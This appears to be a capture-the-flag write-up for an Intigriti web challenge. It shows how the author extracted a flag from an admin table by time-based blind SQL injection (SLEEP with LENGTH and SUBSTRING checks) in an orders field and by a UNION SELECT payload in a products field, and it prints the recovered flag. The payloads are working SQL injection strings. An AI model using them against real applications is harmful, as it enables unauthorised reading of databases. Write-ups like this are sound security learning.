 After trying a few basic commands, I noticed that the payload will work in the `orders` section.

![image](https://hackmd.io/_uploads/HkqMMKLGyx.png)


Accordingly, we will inject a blind base command and set it to sleep for a certain period. Based on this behavior and logic, we will check if the flag string matches a certain character, and if correct, we will set the system sleep time to 5 seconds, and the wait time to 0 seconds if incorrect. Below is an example

First, I check how many characters the flag has, using the command: 

```sql
1 AND (SELECT IF(LENGTH(flag) = n, SLEEP(5), 0) FROM admin LIMIT 1)--
```

With this payload, it will select the length of the flag and compare it with n. If correct, the system will pause for 5 seconds; if not, it will return the result immediately. Where n is the increasing values of the flag.

```sql
1 AND (SELECT IF(SUBSTRING(flag, 1, 10) = 'INTIGRITI{', SLEEP(5), 0) FROM admin LIMIT 1)--
```

Explanation: We will combine a command to check each character in the flag, specifically `IF(SUBSTRING(flag, 1, 10) = 'INTIGRITI{', SLEEP(5), 0)`. If the substring of the flag from position 1 and the next 10 characters matches 'INTIGRITI{', it will sleep for 5 seconds; otherwise, it will immediately return the result. Since it returns the same result, there will be no illustration image. And so, I kept incrementing the values, and if the system responded with 5 seconds, I iterated through the alphabet, numbers, some special characters, guessed meaningful content, and even teencode, until I successfully obtained the final payload.

```sql
1 AND (SELECT IF(SUBSTRING(flag, 1, 36) = 'INTIGRITI{w3B_CH4LL3n63_1N_D156u153}', SLEEP(5), 0) FROM admin LIMIT 1)--
```

`flag` is `INTIGRITI{w3B_CH4LL3n63_1N_D156u153}`

After researching and learning from various sources, I have found a way to inject the payload through `1. Products`

![image](https://hackmd.io/_uploads/HyYVaYLGke.png)

After some investigation, the dash after '--' helps to identify a comment in the command.

And the final payload is: `union select flag,1 from admin -- -`. With this command, at `products`, it will combine the command `select flag,1 from admin`. The condition for retrieving the data is that both tables must have the same number of columns. Afterward, the result will return the value of the flag in `column 1` of the products table, and the value `1` will be a static value returned in `column 2` of the `products` table.

![image](https://hackmd.io/_uploads/SyQLg5IM1e.png)


## Note
Some useful points about payloads, the workings of SQL injection, and how they are used in this article.

1. https://medium.com/@vikramroot/exploiting-time-based-sql-injections-data-exfiltration-791aa7f0ae87
2. https://book.hacktricks.xyz/pentesting-web/sql-injection

